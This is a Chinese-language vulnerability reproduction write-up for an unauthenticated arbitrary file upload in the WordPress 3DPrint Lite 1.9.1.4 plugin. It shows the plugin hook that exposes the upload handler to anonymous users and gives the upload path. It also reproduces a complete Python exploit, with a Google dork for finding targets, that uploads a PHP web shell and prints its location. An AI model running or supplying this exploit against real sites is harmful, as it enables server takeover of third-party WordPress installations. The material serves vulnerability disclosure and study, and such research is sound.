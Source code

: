 # WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>3DPrint Lite Version 1.9.1.4 版本</a-checkbox></br>

## 插件名

<a-checkbox checked>3DPrint Lite</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip</a-checkbox></br>

## 漏洞复现

首先看一下插件注册的接口

![image.png](../../../.vuepress/public/img/1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911.png)

```php
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`

![image.png](../../../.vuepress/public/img/1638590604840-080502a2-0606-483c-b620-88ced836df9f.png)

向下看可以看到一个标准的文件上传代码

![img](../../../.vuepress/public/img/1638590633929-99afa9bf-aff5-41b2-a6be-02f10da4a2d4.png)

通过调试可以找到上传路径 `/wp-content/uploads/p3d/`

![img](../../../.vuepress/public/img/1638590688972-3b63dca0-8357-4456-8d6e-18bc21c476ac.png)

未授权调用 p3dlite_handle_upload 上传文件

```php
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();
            
```

![img](../../../.vuepress/public/img/1638590820680-20cfb3cc-d320-4ba0-9d47-59d36996ed9d.png)
